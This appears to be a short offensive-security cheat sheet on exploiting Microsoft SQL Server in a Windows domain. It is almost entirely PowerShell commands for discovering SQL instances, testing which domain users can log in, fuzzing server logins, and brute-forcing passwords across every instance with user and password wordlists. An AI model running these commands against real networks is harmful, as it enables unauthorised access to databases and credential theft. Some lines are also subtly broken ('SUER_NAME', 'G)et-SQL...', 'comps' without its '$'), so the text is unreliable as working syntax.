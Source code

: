 # 03. Exploitation

## Brute-forcing
Check if current domain user has access to DB
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Check if another domain user has access to DB
```
runas /noprofile /netonly /user:<domain\username>powershell.exe
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Fuzzing logins:
```
Get-SQLFuzzServerLogin -Instance ops-mssql –Verbose
```

This is equivalent to:
```
SELECT SUER_NAME(1)
SELECT SUER_NAME(2)
SELECT SUER_NAME(3)
```

BruteForce:
```
Get-SQLInstanceDomain | G)et-SQLConnectionTestThreaded -Username sa -Password Password -Verbose
```

```
$comps = $(Get-SQLInstanceDomain).ComputerName
comps | Invoke-BruteForce -UserList C:\dict\users.txt -PasswordList C:\dict\passwords.txt -Service SQL –Verbose
```
